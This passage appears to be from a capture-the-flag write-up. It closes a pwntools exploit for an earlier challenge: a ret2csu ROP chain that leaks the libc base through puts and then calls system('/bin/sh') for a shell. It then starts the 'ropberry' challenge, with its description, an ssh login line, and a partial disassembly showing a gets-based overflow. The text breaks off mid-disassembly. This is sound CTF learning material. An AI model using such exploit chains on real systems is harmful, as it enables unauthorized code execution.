 ```python
putsgot = bin.got['puts']

#payload
payload = 'a'*(0x10+8)
payload += p64(csupop) + p64(0)*2 + p64(1) + p64(putsgot) + p64(putsgot) + p64(0) + p64(0) + p64(csumov)
payload += p64(0)*7 + p64(vuln)

#open process
p = process(bin.path)
#gdb.attach(proc.pidof(p)[0],'b *0x400636')

#read input prompt
p.recvuntil('.\n')
#send payload
p.sendline(payload)
#read post-input prompt
p.recvuntil('!\n')
#read output (puts address) and calculate libc address
base = u64(p.recvn(6)+'\x00\x00') - putsoff

#payload 2
payload = 'a'*(0x10+8)
payload += p64(base + poprdi) + p64(base + binshoff) + p64(base + systemoff)

p.recvuntil('.\n')
p.sendline(payload)

p.interactive()
```

## 1. ropberry

### 1-0. Description

You hack this guy on challenge called `gimme-your-shell`, but he is still always asking me the same question when I try to find his secret. Maybe you can do something.

He is waiting for you at: `ssh -i <your_keyfile> -p 2226 user@ropberry.ctf.insecurity-insa.fr`
To find your keyfile, look into your profile on this website.

[binary](https://static.ctf.insecurity-insa.fr/e2bc7f2694aa1ab77c64b72184314bd36665ff17.tar.gz
)

### 1-1. Execution
```bash
junheah@ubuntu:~/Desktop/allmn/2$ ./ropberry 
> Ok, now give me the name of our president.
this is the input

```
### 1-2. Disassembly
Input is taken from ``vuln`` function by using ``gets``
```nasm
gdb-peda$ disas vuln
Dump of assembler code for function vuln:
   0x08048ed0 <+0>:	push   ebp
   0x08048ed1 <+1>:	mov    ebp,esp
   0x08048ed3 <+3>:	sub    esp,0x18
   0x08048ed6 <+6>:	lea    eax,ds:0x80c4f08
   0x08048edc <+12>:	mov    DWORD PTR [esp],eax
   0x08048edf <+15>:	call   0x80499c0 <printf>
   0x08048ee4 <+20>:	mov    ecx,0x0
```